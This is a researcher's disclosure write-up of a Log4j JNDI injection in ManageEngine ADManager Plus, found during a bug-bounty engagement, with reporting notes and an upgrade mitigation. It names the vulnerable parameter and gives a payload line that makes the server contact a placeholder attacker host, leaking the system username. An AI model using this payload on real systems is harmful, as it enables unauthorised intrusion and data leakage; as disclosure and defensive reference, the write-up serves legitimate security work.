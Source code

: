 # AD manager Plus Remote Code Execution

### Description

In the summer of 2022, I have been doing security engagement on Synack Red Team in the collaboration with my good friend (Thura Moe Myint). At that time, Log4j was already widespread on the internet. Manage Engine had already patched the Ad Manager Plus to prevent it from being affected by the Log4j vulnerability. They had mentioned that Log4j was not affected by Ad Manager Plus. However, we determined that the Ad Manager Plus was running on our target and managed to exploit the Log4j vulnerability.

### Exploitation

First, Let’s make a login request using  proxy.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/admanager.png)

Inject the following payload in the ```methodToCall``` parameter in the ```ADSearch.cc``` request.

```
${jndi:ldap://${sys:user.name}.<your-server>}
```

![](https://raw.githubusercontent.com/channyein1337/research/main/images/burp_request.png)

Then you will get the dns callback with username in your burp collabrator.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/username.png)

POC Of Achieving Full RCE

![](https://raw.githubusercontent.com/channyein1337/research/main/images/poc.png)


### Notes

When we initially reported this vulnerability to Synack, we only managed to get a DNS callback and our report was marked as LDAP injection. However, we attempted to gain full RCE on the host but were not successful. Later, we discovered that Ad Manager Plus was running on another target, so we tried to get full RCE on that target. We realized that there was a firewall and an anti-virus running on the machine, so most of our payloads wouldn't work. After spending a considerable amount of time , we eventually managed to  bypass the firewall and anti-virus, and achieve full RCE.

### Conclusion

We had already informed Zoho about the log4j vulnerability, and even after it was fixed, they decided to reward us with a bonus bounty for our report. 

### Mitigation

Updating to a version of Ad Manager Plus higher than 7122 should resolve the issue.
